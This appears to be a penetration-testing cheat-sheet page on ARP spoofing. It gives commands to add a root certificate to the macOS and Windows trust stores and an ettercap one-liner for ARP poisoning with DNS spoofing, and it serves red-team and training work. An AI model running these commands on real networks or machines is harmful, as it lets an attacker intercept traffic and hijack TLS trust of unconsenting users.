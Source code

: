 # 03 - ARP Spoofing

Search Tag(s): #initial-access #exploitation #sniffing-and-spoofing #ettercap

TODO: Re-arrange this section under persistence (https://www.ired.team/offensive-security/persistence/t1130-install-root-certificate)


Mac OSX

```
$ add-trusted-cert -d -r trustRoot -k /Library/Keychains/System.keychain /tmp/filename
```

Windows

```
C:\> CertUtil.exe -addstore -f -user "Root" "C:\path\to\cert.pem"
```

```
PS C:\> Import-Certificate -FilePath C:\Users\spot\Downloads\certnew.cer -CertStoreLocation Cert:\CurrentUser\Root\

HKEY_CURRENT_USER\Software\Microsoft\SystemCertificates\Root\Certificates\
```

Sniff the network

```
$ sudo ettercap -Tqi <interface> -P dns_spoof -M arp // //
```

---
## References

- [Hacking Articles: Comprehensive Guide on Sniffing](https://www.hackingarticles.in/comprehensive-guide-on-sniffing/)

- [Joakim Uddholm: Ettercap, Arpspoof and DNSSpoof Examples](https://joakim.uddholm.com/posts/ettercap-arpspoof-and-dnsspoof-examples)